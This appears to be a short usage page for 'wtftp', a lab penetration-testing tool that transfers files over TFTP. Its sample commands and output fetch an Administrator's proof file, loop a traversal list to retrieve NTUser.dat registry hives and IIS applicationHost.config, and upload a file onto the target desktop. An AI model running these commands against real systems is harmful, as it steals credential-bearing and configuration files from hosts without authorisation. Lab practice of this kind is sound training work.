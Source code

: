#### Use case

    This module is for transferring files via tftp

#### Sample module wtftp
    wtftp -rh 10.11.1.111 -df '\Users\Administrator\Desktop\proof.txt' -ddf 'proof.txt' > check.txt
        ('\\Users\\Administrator\\Desktop\\proof.txt', 'proof.txt')

    wtftp -rh 10.11.1.111 -if 'traversal.txt'
        ('/Users/Administrator/NTUser.dat\n', '_Users_Administrator_NTUser.dat\n')
        ('/Documents and Settings/Administrator/NTUser.dat\n', '_Documents and Settings_Administrator_NTUser.dat\n')
        ...
        ('/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml\n', '_Windows_System32_inetsrv_config_schema_ASPNET_schema.xml\n')
        ('/Windows/System32/inetsrv/config/applicationHost.config', '_Windows_System32_inetsrv_config_applicationHost.config')

    wtftp -rh 10.11.1.111 -uf 'test.txt' -udf '\Users\Administrator\Desktop\test.txt' -u
        ('test.txt', '\\Users\\Administrator\\Desktop\\test.txt')

    wtftp -rh 10.11.1.111 -if 'traversal.txt' -u > check.txt
        ('NTUser.dat\n', 'NTUser.dat\n')
        ('NTUser.dat\n', 'NTUser.dat\n')
        ...
        ('ASPNET_schema.xml\n', 'ASPNET_schema.xml\n')
        ('applicationHost.config', 'applicationHost.config')